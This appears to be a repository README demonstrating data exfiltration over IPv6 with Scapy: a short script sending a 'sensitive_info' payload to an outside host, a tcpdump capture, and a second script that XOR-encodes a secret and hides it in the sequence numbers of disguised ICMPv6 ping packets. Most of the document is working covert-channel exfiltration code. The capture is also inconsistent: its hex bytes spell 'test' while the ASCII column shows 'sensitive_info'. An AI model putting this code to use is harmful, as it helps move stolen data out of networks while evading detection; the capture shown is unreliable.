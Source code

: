 # Example of Exfiltration over IPv6 Using Scapy

Libraries like scapy for Python make it easier for developers to interact with networking abstractions at a higher level. 
For example, with only two lines of code we are able to send a crafted packet to an IPv6 endpoint:

```
from scapy.all import IPv6,Raw,send
send(IPv6(dst="XXXX:XXX:X:1663:7a8a:20ff:fe43:93d4")/Raw(load="sensitive_info"))
```

And sniffing on the other endpoint we can see the packet reaching its destination with the extra raw layer where we included the ‘test’ string:

```
# tcpdump -s0 -l -X -i eth0 'ip6 and not icmp6'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
23:47:15.996483 IP6 XXXX:XXX:X:1663::1ce > XXXX:XXX:X:1662:7a8a:20ff:fe43:93d4: no next header
        0x0000:  6000 0000 0004 3b3e XXXX XXXX XXXX 1663  `.....;>.......c
        0x0010:  0000 0000 0000 01ce XXXX XXXX XXXX 1662  ...............b
        0x0020:  7a8a 20ff fe43 93d4 7465 7374 0000       z....C..sensitive_info..
```


Another example:

```
from scapy.all import IPv6,ICMPv6EchoRequest,send
import sys

secret   = "THISISASECRET" # hidden info stored in the packet
endpoint = sys.argv[1] # addr where are we sending the data

# taken from a random ping6 packet
#        0x0030:  1e38 2c5f 0000 0000 4434 0100 0000 0000  .8,_....D4......
#        0x0040:  1011 1213 1415 1617 1819 1a1b 1c1d 1e1f  ................
#        0x0050:  2021 2223 2425 2627 2829 2a2b 2c2d 2e2f  .!"#$%&'()*+,-./
#        0x0060:  3031 3233 3435 3637                      01234567
data =  "\x1e\x38\x2c\x5f\x00\x00\x00\x00\x44\x34\x01\x00\x00\x00\x00\x00" \
        "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f" \
        "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f" \
        "\x30\x31\x32\x33\x34\x35\x36\x37"

def sendpkt(d):
  if len(d) == 2:
    seq = (ord(d[0])<<8) + ord(d[1])
  else:
    seq = ord(d)
  send(IPv6(dst=endpoint)/ICMPv6EchoRequest(id=0x1337,seq=seq, data=data))

# encrypt data with key 0x17
xor = lambda x: ''.join([ chr(ord(c)^0x17) for c in x])

i=0
for b in range(0, len(secret), 2):
  sendpkt(xor(secret[b:b+2]))
```
